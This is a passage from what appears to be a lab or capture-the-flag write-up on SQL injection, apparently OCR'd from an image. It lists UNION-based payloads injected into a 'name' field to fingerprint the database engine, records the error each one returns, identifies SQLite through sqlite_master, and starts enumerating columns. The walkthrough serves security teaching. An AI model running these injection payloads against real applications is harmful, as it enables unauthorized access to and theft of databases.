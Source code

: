     Pink Floyd' union select version() --

RESPONSE 10 - it is not Postgres SQL

    no such function: version

REQUEST 11 (name) - Informix

    Pink Floyd' union SELECT DBINFO('version', 'full') FROM systables WHERE tabid = 1

RESPONSE 11 - it is not Informix

    no such table: systables

REQUEST 12 (name) - Oracle

    Pink Floyd' union SELECT banner FROM v$version WHERE banner LIKE 'Oracle%' --

RESPONSE 12 - it is not Oracle

    no such table: v$version

REQUEST 13 (name) - Oracle (additional attempt)

    Pink Floyd' union SELECT version FROM v$instance --

RESPONSE 13 - It is not Oracle

    no such table: v$instance 

REQUEST 14 (name) - DB2

    Pink Floyd' union select versionnumber, version_timestamp from sysibm.sysversions --

RESPONSE 14 - It is not DB2

    no such table: sysibm.sysversions

REQUEST 15 (name) - Ingres

    Pink Floyd' union select dbmsinfo('_version');

RESPONSE 15 - It is not Ingres

    no such function: dbmsinfo

REQUEST 16 (name) - SQLite

    Pink Floyd' union SELECT tbl_name FROM sqlite_master --

This time we get a valid RESPONSE, so the DBMS is identified as SQLite.


## (3) DATABASE ENUMERATION

Now that we know that the DBMS is SQLite, we can use specific SQLite commands to try to enumerate the database.

First, we try to determine the **number of columns** of the current table:

REQUEST 17 (injection in 'name' and 'title' = *)

    Pink Floyd' union select NULL --
